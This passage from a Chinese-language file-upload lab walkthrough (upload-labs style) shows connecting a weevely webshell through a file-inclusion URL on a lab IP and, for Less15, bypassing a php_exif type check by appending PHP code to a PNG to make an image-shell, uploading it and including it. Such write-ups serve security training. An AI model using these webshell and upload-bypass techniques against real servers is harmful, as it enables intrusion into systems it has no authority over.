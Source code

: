 4.尝试连接木马

```
 weevely http://192.168.2.128/include.php?file=upload/3120190915163916.png 123456 dir
```

![88b552235413aa69c15002f7db31105e.png](../../images/5e508972b4c64f9a843136051af4af87.png)


## 1.2.10 Less15测试：

这里用到php_exif模块来判断文件类型，用图片马绕过，方法同pass-13
攻击方式：
1.制作图片马

```
cat farmsec.php >> farmsec.png 
```

2.将图片马传入服务器中

http://192.168.2.128/upload/8420190915164701.png
3.借助该页面提供的文件包含页面，包含该图片马
![e1b328482c3bdf887932a49e3b074187.png](../../images/67b5733bc0504081b164f77d0bca058c.png)
